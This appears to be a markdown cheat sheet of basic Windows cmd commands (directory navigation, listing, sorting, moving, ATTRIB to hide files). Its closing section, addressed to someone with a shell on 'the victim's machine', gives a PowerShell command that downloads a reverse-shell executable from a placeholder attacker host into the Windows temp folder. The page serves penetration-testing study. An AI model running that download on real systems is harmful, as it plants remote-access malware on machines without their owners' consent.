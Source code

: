 ```yaml
---
title: Windows Cheat Sheet
---
```

## Basic cmd Windows commands

- *Credits to [stationx](https://www.stationx.net/windows-command-line-cheat-sheet/)*

| Command                           | Explanation                                                                                                                                                                                                                                                                                                                                                               |
| --------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `c:`                              | Change the current drive to the C:\ drive                                                                                                                                                                                                                                                                                                                                 |
| `d:`                              | Change the current drive to the D:\ drive                                                                                                                                                                                                                                                                                                                                 |
| `CD c:\path\to\my_folder`         | Change directory to `c:\path\to\my_folder`                                                                                                                                                                                                                                                                                                                                |
| `CD ..`                           | Navigate to the parent directory of the current working directory                                                                                                                                                                                                                                                                                                         |
| `CD .\new_folder`                 | Navigate to the folder `new_folder` located in the current working directory                                                                                                                                                                                                                                                                                              |
| `CD /D d:\videos\`                | Change the current drive to D:\ and access the folder `videos` on it.                                                                                                                                                                                                                                                                                                     |
| `DIR`                             | Display files and folders in the current directory                                                                                                                                                                                                                                                                                                                        |
| `DIR /A c:\apps\`                 | Display files and folders in the directory `c:\apps\`                                                                                                                                                                                                                                                                                                                     |
| `DIR /A:D`                        | Display only folders (`D:` directories)                                                                                                                                                                                                                                                                                                                                   |
| `DIR /A:-D`                       | Display only files (`D:` directories; `-:` not)                                                                                                                                                                                                                                                                                                                           |
| `DIR /A:H`                        | Display hidden files and folders                                                                                                                                                                                                                                                                                                                                          |
| `DIR /O`                          | Display files and folders sorted alphabetically                                                                                                                                                                                                                                                                                                                           |
| `DIR /O:S`                        | Display files and folders sorted by file size from smallest to largest                                                                                                                                                                                                                                                                                                    |
| `DIR /O:-S`                       | Display files and folders sorted by file size from largest to smallest                                                                                                                                                                                                                                                                                                    |
| `DIR /B`                          | Display only the names of files and folders in the current working directory                                                                                                                                                                                                                                                                                              |
| `SORT`                            | Take input from a source file/pipeline, sort its contents alphabetically (default: A to Z; in reverse: Z to A), and display the output                                                                                                                                                                                                                                    |
| `SORT "C:\music\playlist.m3u"`    | Sort the contents of `C:\music\playlist.m3u` line by line                                                                                                                                                                                                                                                                                                                 |
| `DIR /B \| SORT /R /O ZtoA.txt`   | List all file and folder names in the current working directory, sort them in reverse alphabetical order, and save the sorted output to a file `ZtoA.txt`:  <br>[![](https://www.stationx.net/wp-content/uploads/2023/01/Demonstration-of-DIR-B-SORT-R-O-ZtoA.txt.png)](https://www.stationx.net/wp-content/uploads/2023/01/Demonstration-of-DIR-B-SORT-R-O-ZtoA.txt.png) |
| `MOVE`                            | Move a file or files                                                                                                                                                                                                                                                                                                                                                      |
| `MOVE c:\f1\text.txt c:\f2`       | Move a file `text.txt` from one folder `c:\f1` to another folder `c:\f2`                                                                                                                                                                                                                                                                                                  |
| `MD new_folderMAKEDIR new_folder` | Create a new folder called `new_folder` in the current directory                                                                                                                                                                                                                                                                                                          |
| `RD new_folderRMDIR new_folder`   | Delete the folder called `new_folder` in the current directory                                                                                                                                                                                                                                                                                                            |
| `TREE`                            | Show the directory structure of a disk/folder                                                                                                                                                                                                                                                                                                                             |
| `TREE "C:\Program Files"`         | Show the directory structure of the folder “Program Files” on the disk C:\|                                                                                                                                                                                                                                                                                               |
| `TREE C:\ /F`                     | Display the names of the files in each folder in the directory structure of the C:\ drive                                                                                                                                                                                                                                                                                 |
| `ATTRIB`                          | Display/set the attributes of the files in the current directory                                                                                                                                                                                                                                                                                                          |
| `ATTRIB +H +S +R myItem`          | Hide a file/folder `myItem`                                                                                                                                                                                                                                                                                                                                               |
| `ATTRIB -H -S -R myItem`          | Unhide a file/folder `myItem`                                                                                                                                                                                                                                                                                                                                             |

## Upload content remotely

- If you have a netcar shell, do the following on the victim's machine:

```cmd
powershell -c "Invoke-WebRequest -Uri 'http://YOUR_IP:YOUR_PORT/revshell.exe' -OutFile 'c:\windows\temp\revshell.exe'"
```